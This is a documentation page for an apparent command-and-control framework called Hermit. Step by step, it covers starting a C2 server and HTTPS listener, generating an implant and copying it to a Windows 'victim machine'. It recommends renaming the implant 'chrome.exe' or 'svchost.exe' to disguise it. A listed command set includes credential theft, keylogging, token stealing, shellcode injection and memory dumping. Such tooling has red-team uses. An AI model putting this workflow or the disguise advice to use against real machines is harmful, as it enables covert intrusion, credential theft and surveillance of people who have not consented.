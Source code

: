 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

In the server console, we can show usage with `help` or `help <command>`.

## 2. Start HTTPS Listener

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

This command sets a new listener URL and run it.  
The IP is set from our local interface by default. The port number is randomly generated.  
If we want to specify our own IP/port, add `--url` flag:

```sh title="Hermit C2 Server Console"
Hermit > listener new --url https://127.0.0.1:1234
```

To list all listeners available, run `listeners` command.

## 3. Generate Implant Payload

`payload gen` command generates a new payload such as **implant**, **loader**, **shellcode**.  
The Wizard will start, so follow the instructions to complete the settings.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_exe.png)

The implant is saved under `$HOME/.hermit/server/listeners/listener-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with our own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds (10~30 seconds by default), the agent checked in and listed on the C2 server.  
We can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get Result

In Agent Mode, we can send tasks and get results.  
To see what tasks are available, run `?`, `help` or `help <command>` command.  
Currently, the following tasks are available:

```txt title="Hermit C2 Server Console [Agent Mode]"
TASK:
  cat             Read contents of a file.
  cd              Change the working directory.
  connect         Change listener URL to connect.
  cp              Copy a file.
  creds steal     Steal credentials from various resources on the target computer
  dll             Load DLL and inject modules into the specified process
  download        Download a file.
  env ls          List environment variables.
  envs            alias for 'env ls'
  execute         Execute system command.
  group ls        List local groups.
  groups          Alias for 'group ls'
  history         Retrieve information from history files of applications
  ip              Print the network interface information on target computer
  jitter          Set jitter time (seconds) between requests from beacon
  keylog          Keylogging N seconds.
  kill            Terminate the current process.
  killdate        Change killdate (UTC) for the implant beacon.
  ls              List files in a directory.
  migrate         Migrate the implant into another process.
  mkdir           Create a new directory.
  mv              Move a file to a destination location.
  net             Get TCP connections.
  procdump        Dump process memory to a specified output file.
  ps kill         Terminate a process.
  ps ls           List processes.
  pwd             Print the current working directory.
  reg subkeys     Enumerate subkeys for the specified open registry key.
  reg values      Enumerate the specified registry values.
  rm              Remove a file.
  rmdir           Remove a directory.
  rportfwd add    Add settings to reverse port forwarding.
  rportfwd ls     List settings for reverse port forwarding.
  rportfwd rm     Stop and remove listener for reverse port forwarding.
  runas           Execute a program as another user.
  screenshot      Take a screenshot on target computer.
  shellcode       Inject shellcode into the specified process
  sleep           Set sleep time (seconds) between requests from beacon
  token revert    Revert back to the original process token.
  token steal     Steal token from the specified process and impersonate process.
  upload          Upload a file to the target computer.
  user ls         List users.
  users           List all local users.
  whoami          Print the current user information.
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send_whoami.png)

To see the tasks waiting for results, run the `tasks` command.  

After a few seconds, if the task is successful, we can see the task results with the `task result` or `loot show` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
# or
Hermit [agent-abcd] > loot show
```

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After enumerations, stop the implant with the `kill` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > kill
```

Then run `exit` command to quit the agent mode.

## 8. Delete Agent

If we want to delete the agent, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > agent delete 1
```

`1` is the agent ID that can be seen by `agents` command.

## 9. Stop/Delete Listener

Also, if we want to stop and delete the listener, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > listener stop 1
Hermit > listener delete 1
```

`1` is the listener ID that can be seen by `listeners` command.